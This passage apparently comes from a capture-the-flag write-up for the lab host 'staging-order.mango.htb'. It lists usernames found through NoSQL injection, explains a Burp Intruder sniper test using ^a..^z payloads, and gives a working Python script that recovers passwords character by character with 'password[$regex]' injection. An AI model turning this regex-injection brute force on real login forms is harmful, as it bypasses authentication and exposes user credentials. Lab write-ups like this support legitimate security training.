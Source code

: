 ```python
    brute_user("")
```

**Discovered Usernames**:
- `admin`
- `mango`

<img width="657" height="320" alt="image" src="https://github.com/user-attachments/assets/ae0cd350-0600-404a-9ec7-c5efad3e737e" />

<img width="657" height="320" alt="image" src="https://github.com/user-attachments/assets/ee6d47e8-febf-4207-9a26-1a21ca81641e" />

**Note:To bruteforce the usernames we are using the nosql injection I have just used the requests package and made a request to the website and with the payload ^{user_prefix+char} trying whether the username starts with a,b,c note that to get the username starting with m we need to call the function as brute_user("m") How did m appear as first letter is that we tested in burp the first character using sniper attack by using the payload as ^a,^b...^z the intruder sniper request is below**

#### Password Extraction

**Python Script for Password Brute-Force**:
```python
import requests
import string
import sys

def brute_pass(user, pass_prefix=""):
    found = False
    for char in string.ascii_letters + string.digits + string.punctuation:
        if char not in ['+', '.', '*', '?', '|', '\\']:
            payload = pass_prefix + char
            sys.stdout.write(f"\r[+] Trying password: {payload}")
            sys.stdout.flush()
            
            response = requests.post(
                'http://staging-order.mango.htb/',
                data={
                    'username': f'{user}',
                    'password[$regex]': f'^{payload}',
                    'login': 'login'
                }
            )
            
            if "We just started farming" in response.text:
                found = True
                brute_pass(user, payload)
                return
    
    if not found and pass_prefix:
        print(f"\n[+] For user: {user} Found password: {pass_prefix}")

if __name__ == "__main__":
    brute_pass("admin", "")
    brute_pass("mango", "")
```
